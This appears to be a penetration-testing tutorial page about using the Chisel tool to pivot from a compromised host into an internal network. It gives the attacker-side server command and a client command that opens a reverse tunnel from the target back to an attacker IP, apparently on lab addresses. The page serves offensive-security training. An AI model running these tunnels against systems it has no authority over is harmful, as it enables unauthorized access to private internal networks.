 # Chisel
[Chisel](https://github.com/jpillora/chisel) is a great tool for pivoting and creating tunnels to internal networks and systems from a compromised target. It can be uploaded using [various data infiltration techniques](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)

The practice of tunneling is very abstract and somewhat of an advanced topic in Information Security/IT. If any of this is confusing I would highly recommend watching tutorial videos on the subject which outline the process visually before attempting it.
## Chisel Usage by Example
Youtube user IppSec has a [great tutorial](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) on how to use Chisel as a tunnel to pvito to internal systems from a compromised system. We will descirbe the entire process with 3 hosts, Attacker, which is our Kali system, the Target which is the compromised host, and the Internal Target, which lies on an internal netework that only the compromised Target system has access to communicate with.

Below are the steps outlined in the tunnel process,
1. Compromise a system as any level shell
   1. This does not have to be a root user
   2. This requires a space to read/write on the host to perform data infiltration.
2. Upload Chisel to the target host.
    1. Use simple data infiltration techniques that I have [outlined here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)
    2. Ensure the binary tranferred successfully by using `md5sum` or some other hashing mechanism.
3. Start the Chisel server on the Attacker machine.
4. Start the Chisel client on the compromised Target system and connect back to the Attacker system's server.

### Starting the Chisel Server (Step 3)
To start the Chisel server on the Attacker machine, we do,
```
root@attacker-machine:~# chisel server -p 8081 -reverse -v
```
### Chisel Client on Compromised Target (Step 4)
To connect back to the Attacker machine from the compromised Target system, we run (on the compromised Target system)
```
user@target-machine:~$ ./chisel client \
 (ATTACKER IP ADDRESS):(ATTACKER PORT) R:(ATTACKER NEW PORT):(INTERAL TARGET IP):(INTERNAL TARGET PORT)
```
For instance, since we have the server running on the attacker system (10.10.14.2) from step 3 - at port 8081, we do (from the compromised target system (10.10.10.94)),
```
user@target-machine:~$ ./chisel client 10.10.14.2:8081 R:8082:172.19.0.3:80
```
This will route traffic to the internal Target system's port 80 via the compromised Target's reverse `R` connection to the Attacker host's Chisel server. Now, if all goes well, we can make a `curl` request from the Attacker machine to it's localhost on port 8082 and see the webpage located on the Internal Target Host, 172.19.0.3, via the compromised Target system, 10.10.10.94. Below is an ASCII visualization of the process of the HTTP request,

```
Attacker System-->compromised Target System-->Internal Private Network and Systems
10.10.14.2-->10.10.10.94-->172.19.0.3
172.19.0.3-->10.10.10.94-->10.10.14.2
```
